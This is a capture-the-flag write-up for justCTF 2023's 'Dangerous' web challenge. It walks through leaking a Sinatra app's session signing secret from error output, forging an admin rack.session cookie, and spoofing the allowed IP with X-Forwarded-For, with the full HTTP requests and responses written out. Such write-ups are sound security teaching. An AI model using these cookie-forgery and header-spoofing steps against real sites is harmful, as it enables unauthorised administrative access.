 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: justCTF 2023
Retired: true
Status: 3. Complete
tags:
  - ruby
  - forging-cookies
  - rack.session
  - sinatra
---
```


>[!quote]
>My friend told me there's a secret page on this forum, but it's only for administrators.

# Setup

- Challenge: http://dangerous.web.jctf.pro
- Source code: https://s3.cdn.justctf.team/bd39a8d7-ad35-4fce-a0a9-51fa434ca14f/dangerous.zip

# Short summary

We have a pre-production environment that can be configured at will. The application uses `sinatra` to manage the `rack.session` cookie, which signs session cookie with a **random secret generated at every restart**. Because the application do not validate input and discloses ENV information as well as back-traces, it is possible to leak the secret value, patch the local environment and generate a valid signed cookie that can be reused in production.

# Exploitation

## Leaking the signing secret

Request to `/2` without any content
```http
POST /2 HTTP/1.1
Host: dangerous.web.jctf.pro
Content-Length: 8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dangerous.web.jctf.pro
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dangerous.web.jctf.pro/2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rack.session=VUQ%2FOH9Wiww2IDmwRsRhrwEJE%2B1V0SLfzliAjlcaxPw6bN6pMDCTEN1NMkFlBaqIhrNpmOZ5zHL6uJjvcwrNb1I%2FJ4lwtvVeiSRB0DOoSlmAScRr7MmItlckRXlSQJrpt2%2BNuaNRs2h%2BUpjLMfuOO%2Fmw%2Fs%2FZHe2p41hqGYeAOmjGQo4yv9K7tOMgQofTeJlEx%2Ba30ciAcHQF4EbcYSSeKJR4l1EhTB%2FryzTnTyhcLJxIbXLN04p8QPRIonsBxZpr0iZtSF1bzi7lJnnXFQW%2FtB2XzbceOWxNAQgrwOph1OoDawVgkFEBYiVZrum8WRa4m9oRtsg8XAA4pZnE1wgZVniRonwfs1paqGxL0TpbsfwHIMf1AOhI%2FhFW6uw9vuNZkcXnbXqniGb9zR9TiBiDRNvOfXefYZg%3D--jJH3pbRd5twoxdHV--YHlFrNHPVMrA8P4kkQkXww%3D%3D
Connection: close

content=
```

Server leaking the secret:
![](../../zzz_res/attachments/dangerous-secret.png)

## Forging an arbitrary rack.session cookie

Edited `config.json` in order to include the `janitor` user.

*config.json*
```json
{
	"mods": [
		{
			"username": "janitor",
			"password": "testpasswd123",
			"allowed_ip": "127.0.0.1"
		}
	],
	"flag": "testflag"
}
```

Hardcoded the production `session_secret` in order to forge arbitrary valid cookies

*dangerous.rb*
```rb
config = JSON.parse(File.read("./config.json"))
set :bind, '0.0.0.0'
enable :sessions

set :erb, :escape_html => true

con = SQLite3::Database.new "sqlite.db"

...

set :session_secret, 'a9316e61bc75029d52f915823d7bb628a4adae8b174bce89fd38ec4c7fb925a07e2ccbc01572b9fdce56502ef5d02609e5194a5ddd649ff349a206002e96a99d'

...
```

Logged in from localhost and forged a valid cookie:
```http
POST /login HTTP/1.1
Host: 127.0.0.1
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
Cookie: rack.session=aw%2FgPEFvnPwF6ldIHlDzBMoX%2FFOmyeSk8%2BNNazXFQd6tp7YENRXqayWaPTlGOzF4GUFmaYBykdlfmhCEMKFD%2BqV%2BOQgjDDmomIZr9VZx7LAJdbdehW9Yx2tilkVvVTsfHeVtie7JFreuVBgj%2BeVopRorAodBgua2kvKKKmH6W3lS%2B4HHEpaFM1YySfdp4kzg%2BXDBf1eJ89E8UR40lQj5R07AQ3jiZJXzkOuv0Hu909UPTfhXOhzsbBKrj4HxDElRavjOWnPwsk5OUS78NJjpN0xFwvmFxkMBdYMz3JDOiKSIieNofFGo1skuumw2Apko0St5wNWwDPdvE9tnuOA86VbU4qLXUi%2FGHcNIMQbEjmZLcreBow6bBBXmE748ITrzMbD1h%2BAoVStOkNbKpIe2Owo5nkUzTSk%3D--P8VvR%2BNkc4om6KKR--xMJaRQ%2BibPrCE6yWQ%2FkPrg%3D%3D
Connection: close

username=janitor&password=testpasswd123
```

*Response*
```http
HTTP/1.1 302 Found
...
Set-Cookie: rack.session=YvDxLeuQsSjDGMq0SuYpbcsvZ%2B99T3uF9qSCYE5gVCRpm%2By63HyDKVzKG5csRUYs2ALwr3u2ckdvMCxwvHF%2BgUuM6MWhOKdcenL6UFWvdALOH7pr6PwDeJemlK2Em%2BMq4zqGeZn1s2Qbqa0rHQwWR3541Jfer03InPFXjLxQxcEgoxVLzmF9mAlFjcdXj%2Fn5svv189ILi8Wbns9RBOeOVjXDRiitBPH7aGV8eyPy3PRd9LK2GV%2BeOmaEQWkOHV3awXrne1X96GeL1yoYHWL46AzQbompFiKNcisuhkBRQhocjPWvioMenWOHwCzTi3POs%2Bt4KyjvSSGOCb4%2BUcAjP%2FHqXOlp9Ak9I1j%2FHih3FGAkDQiKncg%3D--zGDFj9ThLxNDUQ7e--%2BEumPrEKXNtC9P3KxVZz3Q%3D%3D; path=/; HttpOnly
```

## Bypassing IP filtering

The application blocks requests coming from IPs different to the one specified in the configuration file.

Request
```http
GET /flag HTTP/1.1
Host: dangerous.web.jctf.pro
Cookie: rack.session=4RgRk%2F24mKb7qhuf4rRXuOrP3Eag0gVn4YVZU7ODG%2BYILKF4hs%2ByIJRbgOVWZQm6VprojFNTVFq6%2F%2F6qRK%2F4vs3UgfMI9%2B1Yz9yVxslhhNl%2FzkkQcodO15dvWO5QNNNU%2B8K3gajMSEUlcIEmlAoVwnol%2Bf4Yf8b%2FY%2FmlJ9O2nWXekRI1ufB4vJp9exGS39cRjA%2BkxtNZY6k9SiiVY7zEcwR8E%2BqCR6QJv2kqE3AcsiuXtVcsczxr9t2LWSlPZpTwQ27smRopLqzJupcBcvh3uN2qzr1i2X54ic2GvCP335s5AzUCQIELi7KJuNaelPf8g9WrqyKFLVQRe5tA7fPuEkMU3kAK%2BYJJ3fz1kNN7nw3WjShROCBslB8nqWrto8E1IUNqm2CtD4umAaEC9qejDPAquiq5PExjnj4t1SxSgHL9EUmwCXV9KS%2BKOcS2bI8fNGoa2A%3D%3D--NHyLaPg3hiqFhSQk--1ORHWubELdOlpoWWazPyfA%3D%3D
Connection: close
```

Response
```http
HTTP/1.1 403 Forbidden
...
You are connecting from untrusted IP!
```

We can brute-force the admin IP comparing the user's color with every IP, eventually discovering 10.24.170.69:
```erb
# === temporarily disabled ===
  # con.execute("INSERT INTO threads (id, content, ip, username)
  #           VALUES (?, ?, ?, ?)", [nil, params[:content], request.ip, username])
  redirect to("/#{con.execute('SELECT last_insert_rowid()')[0][0]}")
...
<% @replies.each do |reply| %>
		<div style="padding-bottom: 1rem">
			<% user_color = Digest::SHA256.hexdigest(reply[2] + @id).slice(0, 6) %>
			<div style="color: #<%= user_color %>;">
				<%= user_color %>
			<% if reply[3] %>
				<span style="color: #ff0000;">##Admin:<%= reply[3] %>##</span>
			<% end %>
			</div>
			<div><%= reply[1] %></div>
		</div>
	<% end %>
```

![](../../zzz_res/attachments/dangerous-colors.png)

We can send the same request using the `X-Forwarded-For` header to spoof our IP and obtain the flag.

*request*
```http
GET /flag HTTP/1.1
Host: dangerous.web.jctf.pro
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rack.session=4RgRk%2F24mKb7qhuf4rRXuOrP3Eag0gVn4YVZU7ODG%2BYILKF4hs%2ByIJRbgOVWZQm6VprojFNTVFq6%2F%2F6qRK%2F4vs3UgfMI9%2B1Yz9yVxslhhNl%2FzkkQcodO15dvWO5QNNNU%2B8K3gajMSEUlcIEmlAoVwnol%2Bf4Yf8b%2FY%2FmlJ9O2nWXekRI1ufB4vJp9exGS39cRjA%2BkxtNZY6k9SiiVY7zEcwR8E%2BqCR6QJv2kqE3AcsiuXtVcsczxr9t2LWSlPZpTwQ27smRopLqzJupcBcvh3uN2qzr1i2X54ic2GvCP335s5AzUCQIELi7KJuNaelPf8g9WrqyKFLVQRe5tA7fPuEkMU3kAK%2BYJJ3fz1kNN7nw3WjShROCBslB8nqWrto8E1IUNqm2CtD4umAaEC9qejDPAquiq5PExjnj4t1SxSgHL9EUmwCXV9KS%2BKOcS2bI8fNGoa2A%3D%3D--NHyLaPg3hiqFhSQk--1ORHWubELdOlpoWWazPyfA%3D%3D
X-Forwarded-For: 10.24.170.69
Connection: close
```

*response*
```http
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 03 Jun 2023 18:09:40 GMT
Content-Type: text/html;charset=utf-8
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Set-Cookie: rack.session=kHRUXQqIF%2FdOrnilQe%2BIDOKezsEQupqwS7sEbPWLfwIES6iyQqkFAcrP%2F73t8Ja0umhfMb1eC39IvCC4q800Z%2BIEDXTQDHbH4ugDWIj0dOwSTlCf%2B4qRv1cPqjbOSBqAQJqiIkBrMv8xvnU8D2ZpiDbyWzi1nQOK8a5c1SpLNiRFB%2FIUXuDP7%2FR8J4o9U%2FY9SCtvrR4uRYKXYJEnk2Aj4aqG7aySnl9TZdmu0tKrR9BVznGibNsu%2Fk2b0qNIUkL6kc0CFpZYlS0Om%2B3OjFDOyJVX%2BwBj8XcNb4ZXyoKt4qlrwpRJa45UF9bVXzlFcptk5Tn5lhDtKyctJBAZBr2sP9jQplacmmmc15makBwEGW1fAfKUsqBE8ZMffO09Ho%2FruzSITfGoCTh3hO5Sn%2BEXdJBG2sZRIekOQ9BwvL51pHeTdXgsN4f1zzUozPnryvxPzTKTxQ%3D%3D--SPD6v0EWem%2FlAXnH--lYXKiVv9sarF2LRBQ1EcBg%3D%3D; path=/; HttpOnly
Content-Length: 43

justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}
```

# Flag

>[!success] Flag
> `justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}`
